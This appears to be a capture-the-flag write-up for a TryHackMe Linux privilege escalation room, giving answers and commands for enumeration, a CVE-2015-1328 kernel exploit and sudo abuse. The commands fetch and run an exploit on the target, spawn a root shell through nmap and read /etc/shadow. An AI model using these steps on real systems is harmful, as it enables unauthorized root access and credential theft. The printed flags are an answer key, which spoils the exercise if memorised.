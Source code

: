 # Linux Privilege Escalation
Learn the fundamentals of Linux privilege escalation. From enumeration to exploitation, get hands-on with over 8 different privilege escalation techniques.
## Enumeration
what is the hostname of the target system
```
$ hostname
$ wade7363
```
What is the linux kernel version of the target system
```
$ uname -r
$ 3.13.0.24-generic
```
What Linux is this
```
$ cat /etc/os-release
NAME = "Ubuntu Linux"
```
What version of the Python Language is installed on the system
```
$ python --version
2.7.6
```
What vulnerability seems to affect the kernel of the target system? (Enter CVE number)

we can search the CVE number on databases like exploit-db
```
CVE-2015-1328
```
## Privilege escalation: kernel exploits
On local machine: 
http.server is being used because only machines within the tryhackme network can be used with `wget`
```
$ wget https://www.exploit-db.com/download/37292 > exploit.c && mv exploit.c /tmp
$ python -m http.server 12000
$ ip addr
(copy tun0 IP)
```
On remote machine:
```
$ wget http://HOST_IP:12000 
$ gcc exploit.c && ./a.out
```
What is the content of the flag1.txt?
```
THM-28392872729920
```
## Privilege escalation: sudo
How many programs can the user "karen" run on the target system with sudo rights?
```
$ sudo -l
```
Answer: 3

What is the content of the flag2.txt?
```
$ cat /home/ubuntu/flag2.txt
THM-402028394
```
How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

we will find this in here: https://gtfobins.github.io/gtfobins/nmap/
```
$ sudo nmap --interactive
```
what is the hash of frank's password?
`less` has root permisssions
```
$ sudo less /etc/shadow
$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLH
```

